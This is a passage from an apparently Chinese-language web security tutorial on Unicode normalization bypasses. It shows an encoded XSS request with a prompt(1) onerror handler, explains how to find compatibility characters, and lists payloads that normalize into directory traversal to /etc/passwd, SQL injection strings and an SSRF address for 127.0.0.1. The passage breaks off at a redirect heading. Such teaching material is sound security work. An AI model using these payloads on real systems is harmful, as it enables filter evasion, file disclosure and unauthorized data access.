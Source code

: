     
    
    GET /?name=%EF%BC%9Cimg%20src%E2%81%BCp%20onerror%E2%81%BC%EF%BC%87prompt%E2%81%BD1%E2%81%BE%EF%BC%87%EF%B9%A5

返回200  

![](https://gitee.com/fuli009/images/raw/master/public/20230714175736.png)

 **如何查找这些字符呢**

我们可以到这个网站  

https://www.compart.com/en/unicode

可以搜索某个字符，并找到兼容后的相同字符。例如，字符 >

![](https://gitee.com/fuli009/images/raw/master/public/20230714175737.png)

  

显示这三个字符：≮、﹤和＜。单击每个后，我们可以在“分解”部分中看到按以下方式标准化：

  * ≮- <(U+003C) -  ◌̸(U+0338)

  * ﹤- <(U+003C)

  * ＜- <(U+003C)

在这种情况下，该角色≮将无法实现我们想要的功能，因为它会注入角色◌̸（U+0338）并会破坏我们的有效负载。

 **其他思路**  

 **目录遍历**

  

Character| Payload| After Normalization  
---|---|---  
‥ (U+2025)| ‥/‥/‥/etc/passwd| ../../../etc/passwd  
︰(U+FE30)| ︰/︰/︰/etc/passwd| ../../../etc/passwd  
  
 **sql注入  
**

  

Character| Payload| After Normalization  
---|---|---  
＇(U+FF07)| ＇ or ＇1＇=＇1| ’ or ‘1’=’1  
＂(U+FF02)| ＂ or ＂1＂=＂1| ” or “1”=”1  
﹣ (U+FE63)| admin＇﹣﹣| admin’–  
  
 **ssrf**

  

Character| Payload| After Normalization  
---|---|---  
⓪ (U+24EA)| ①②⑦.⓪.⓪.①| 127.0.0.1  
  
 **重定向  
**
